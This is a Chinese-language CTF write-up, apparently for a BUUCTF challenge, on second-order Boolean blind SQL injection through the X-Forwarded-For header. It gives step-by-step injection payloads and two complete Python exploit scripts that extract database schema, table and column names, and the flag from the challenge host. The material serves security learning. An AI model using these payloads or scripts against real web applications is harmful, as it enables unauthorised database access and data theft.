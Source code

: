 # 知识点：

# 1. xff头sql注入

# 2. 布尔盲注

# 3.二次注入



# 1. 判断注入点

尝试之后发现，网页会回显current ip和last ip

此时就可以考虑，是否存在xff头注入



# 2. 确定注入点

payload1:

```javascript
X-Forwarded-For: 1'or'1
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/7FB12F046C5244E891033FFFF46CDCECclipboard.png)

current ip显示输入的1'or'1



payload2:

```javascript
X-Forwarded-For: 2
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/AF5B8882AB014B80AEE295E9A0214499clipboard.png)

current ip：

last ip :1'or'1



payload3:

```javascript
X-Forwarded-For: 2
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/E6E8217FFE4A40EBA04E11FEF583EA51clipboard.png)

此时说明存在sql注入，输入的1'or'1被查询，返回了1



### 结论：

### 说明第一次输入会显示current ip

### 第二次输入的ip并不一样，会显示在last ip 并存入数据库

### 第三次输入的ip和第二次currentip一样，会把数据库中的last ip取出来

### 总之第三次会从数据库中取出，存入的数据，从而造成注入



# 3. 此时构造尝试注入

payload1:

```javascript
X-Forwarded-For: 0' or (select version())>5 or'0
```



payload2:

```javascript
X-Forwarded-For: 0
```



pyload3:

```javascript
X-Forwarded-For: 0
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/57968C32012B42C9934F87844A6F3934clipboard.png)

返回1说明version>5返回1

后面的语句就是：

```javascript
0'or 1 or'0
```

会返回1



此时就可以构造布尔盲注，当查询的结果为真时会返回1，为假会返回0



# 4.附上大佬的exp

```javascript
#!/usr/bin/env python3
# coding=utf-8

import requests

target = "http://node3.buuoj.cn:25851/?url=https://127.0.0.1"

def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

#0'or legth() or'0
    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload}) # 将语句注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 查询上次IP时触发二次注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 再次查询得到结果
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" + bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result


# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```





一个简单的exp:

```javascript
import requests
import time

url = "http://node3.buuoj.cn:25851/?url=http://127.0.0.1"
head = {
   "GET" : "/ HTTP/1.1",
   "Cookie" : "track_uuid=fbdc9ac2-c78a-458b-f6e5-ef05be43a421",
   "X-Forwarded-For" : ""
}
result = ""
for i in range(1,100):
   l = 1
   r = 127
   mid = (l+r)>>1
   while(l<r):
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i,mid)
      html_0 = requests.post(url,headers = head)
      time.sleep(0.005)
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i, mid+1)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      if "Last Ip: 1" in html_0.text:
         l= mid+1
      else:
         r=mid
      mid = (l+r)>>1
   if(chr(mid)==' '):
      break
   result+=chr(mid)
   print(result)
print("table_name:"+result)
```






